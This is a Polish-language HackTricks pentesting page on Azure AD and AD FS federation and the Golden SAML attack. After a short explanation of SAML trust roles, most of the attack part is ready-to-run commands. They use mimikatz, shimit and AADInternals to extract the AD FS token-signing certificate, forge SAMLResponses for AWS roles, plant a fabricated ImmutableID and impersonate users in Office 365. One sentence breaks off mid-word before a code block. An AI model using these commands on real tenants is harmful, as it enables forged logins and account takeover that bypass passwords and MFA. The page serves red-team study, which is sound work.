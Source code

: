 # Federacja

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) **i** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repozytoriów GitHub**.

</details>

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federacja** to zbiór **domen**, które ustanowiły **zaufanie**. Poziom zaufania może się różnić, ale zazwyczaj obejmuje **uwierzytelnianie**, a zawsze obejmuje **autoryzację**. Typowa federacja może obejmować **wiele organizacji**, które ustanowiły **zaufanie** dla **wspólnego dostępu** do zestawu zasobów.

Możesz **zafederować swoje środowisko lokalne** z Azure AD i używać tej federacji do uwierzytelniania i autoryzacji. Ta metoda logowania zapewnia, że całe uwierzytelnianie użytkownika odbywa się w środowisku lokalnym. Ta metoda pozwala administratorom wprowadzić bardziej rygorystyczne poziomy kontroli dostępu. Dostępna jest federacja z **AD FS** i PingFederate.

<figure><img src="../../../../.gitbook/assets/image (83) (1).png" alt=""><figcaption></figcaption></figure>

W federacji całe **uwierzytelnianie** odbywa się w środowisku **lokalnym**, a użytkownik korzysta z SSO we wszystkich zaufanych środowiskach. Dlatego użytkownicy mogą **uzyskać dostęp** do **aplikacji w chmurze**, korzystając z ich **danych uwierzytelniających w środowisku lokalnym**.

**Security Assertion Markup Language (SAML)** jest używany do **wymiany** wszystkich informacji dotyczących uwierzytelniania i autoryzacji między dostawcami.

W każdej konfiguracji federacji występują trzy strony:

* Użytkownik lub klient
* Dostawca tożsamości (IdP)
* Dostawca usług (SP)

(Obrazy pochodzą z https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

1. Początkowo, użytkownik uzyskuje dostęp do aplikacji (Dostawca Usług lub SP, takich jak konsola AWS lub klient sieciowy vSphere). Ten krok może zostać pominięty, prowadząc klienta bezpośrednio do IdP (Dostawca Tożsamości), w zależności od konkretnej implementacji.
2. Następnie SP identyfikuje odpowiedniego IdP (np. AD FS, Okta) do uwierzytelniania użytkownika. Następnie tworzy żądanie uwierzytelnienia SAML (Security Assertion Markup Language) i przekierowuje klienta do wybranego IdP.
3. IdP przejmuje kontrolę, uwierzytelniając użytkownika. Po uwierzytelnieniu IdP formuje odpowiedź SAML (SAMLResponse) i przekazuje ją do SP przez użytkownika.
4. Na koniec SP ocenia odpowiedź SAML. Jeśli zostanie pomyślnie zweryfikowana, co oznacza relację zaufania z IdP, użytkownik otrzymuje dostęp. To oznacza zakończenie procesu logowania, umożliwiając użytkownikowi korzystanie z usługi.

**Jeśli chcesz dowiedzieć się więcej o uwierzytelnianiu SAML i powszechnych atakach, przejdź do:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS to model tożsamości oparty na twierdzeniach.
* "..twierdzeniasąpo prostu oświadczeniami (na przykład nazwa, tożsamość, grupa), które są używane głównie do autoryzacji dostępu do aplikacji opartych na twierdzeniach, znajdujących się w dowolnym miejscu w Internecie."
* Twierdzenia dla użytkownika są zapisane wewnątrz tokenów SAML, a następnie są podpisane w celu zapewnienia poufności przez IdP.
* Użytkownik jest identyfikowany przez ImmutableID. Jest to globalnie unikalne i przechowywane w Azure AD.
* ImmutableID jest przechowywane w środowisku lokalnym jako ConsistencyGuid dla użytkownika i/lub może być wygenerowane na podstawie GUID użytkownika.
* Więcej informacji na stronie [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Atak Golden SAML:**

* W ADFS odpowiedź SAML jest podpisana przez certyfikat podpisywania tokenów.
* Jeśli certyfikat zostanie naruszony, możliwe jest uwierzytelnienie w Azure AD jako DOWOLNY użytkownik zsynchronizowany z Azure AD!
* Podobnie jak w przypadku nadużycia PTA, zmiana hasła dla użytkownika lub MFA nie będzie miała żadnego efektu, ponieważ fałszujemy odpowiedź uwierzytelniającą.
* Certyfikat można wyodrębnić z serwera AD FS z uprawnieniami DA, a następnie można go użyć z dowolnego połączonego z Internetem komputera.
* Więcej informacji na stronie [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Proces, w którym **Dostawca Tożsamości (IdP)** generuje **SAMLResponse** w celu autoryzacji logowania użytkownika, jest kluczowy. W zależności od konkretnej implementacji IdP, odpowiedź może być podpisana lub zaszyfrowana za pomocą prywatnego klucza IdP. Ten proces umożliwia dostawcy usług (SP) potwierdzenie autentyczności SAMLResponse, zapewniając, że został on rzeczywiście wydany przez zaufanego IdP.

Można wyciągn
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Z całymi tymi informacjami możliwe jest zapomnienie o prawidłowym SAMLResponse jako użytkownik, którego chcesz podszyć się za pomocą [**shimit**](https://github.com/cyberark/shimit)**:**

{% code overflow="wrap" %}
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

### On-prem -> chmura
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Jest również możliwe utworzenie ImmutableID dla użytkowników tylko w chmurze i podszywanie się pod nich.
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Odnośniki

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

